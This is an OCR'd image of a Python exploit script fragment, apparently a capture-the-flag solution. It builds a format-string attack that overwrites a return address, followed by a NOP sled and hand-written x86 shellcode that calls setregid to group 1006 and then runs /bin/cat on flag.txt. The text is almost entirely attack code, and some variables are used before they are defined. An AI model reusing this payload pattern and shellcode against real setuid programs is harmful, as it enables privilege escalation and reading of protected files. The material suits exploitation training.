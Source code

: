 ```
first_half_return_address = struct.pack("<I", 0xffffd8d6)

# 0xffffd920
# 0xffffd91a
second_half_return_address = increment_address(second_half_return_address, cnt)
first_half_return_address = increment_address(first_half_return_address, cnt)


# NOP Sled
nop_sled = "\x90" * 41

second_format_string, first_half_format_string = calculate_format_string(first_half_return_address)

# setregid: badformatflag 1006
setregid_hex = "\x31\xDB\x66\xBB\xEE\x03\x31\xC9\x66\xB9\xEE\x03\x31\xC0\xB0\x47\xCD\x80"

# # bin_cat.s
bin_cat_s = "\x31\xC0\x50\x68\x2F\x63\x61\x74\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2E\x74\x78\x74\x68\x66\x6C\x61\x67\x89\xE1\x50\x51\x53\x89\xE1\x31\xD2\x8B\x19\xB0\x0B\xCD\x80\xB0\x01\x31\xDB\xCD\x80"


payload = dummy + \
            second_half_return_address + first_half_return_address + \
            second_format_string + first_half_format_string + \
            nop_sled + setregid_hex + bin_cat_s

sys.stdout.write(payload)
```



